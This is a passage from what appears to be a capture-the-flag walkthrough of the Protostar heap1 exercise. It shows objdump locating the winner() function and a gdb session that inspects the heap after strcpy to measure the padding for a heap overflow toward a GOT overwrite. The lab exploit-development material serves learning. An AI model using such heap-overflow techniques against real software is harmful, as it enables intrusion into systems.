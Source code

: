 ```shell
user@protostar:/opt/protostar/bin$ objdump -t ./heap1 | grep winner
08048494 g     F .text  00000025              winner
```

Now that we have both the address of **winner()** and **the GOT entry**, we need to find the padding required to overflow into `i2->name`.

To do this, we will run the program with recognizable data (AAAA and BBBB) as arguments. We'll set a breakpoint right after the last call to **strcpy()**, at `0x0804855a`, then examine the heap.

```shell
(gdb) disassemble main
...
0x08048555 <main+156>:  call   0x804838c <strcpy@plt>
0x0804855a <main+161>:  mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
(gdb) break *0x0804855a
Breakpoint 1 at 0x804855a: file heap1/heap1.c, line 34.
(gdb) r AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB

Breakpoint 1, main (argc=3, argv=0xbffff844) at heap1/heap1.c:34
(gdb) info proc map
process 2036
cmdline = '/opt/protostar/bin/heap1'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
         0x804a000  0x806b000    0x21000          0           [heap]
...
(gdb) x/56wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d0:      0x00000000      0x00000000      0x00000000      0x00000000
```
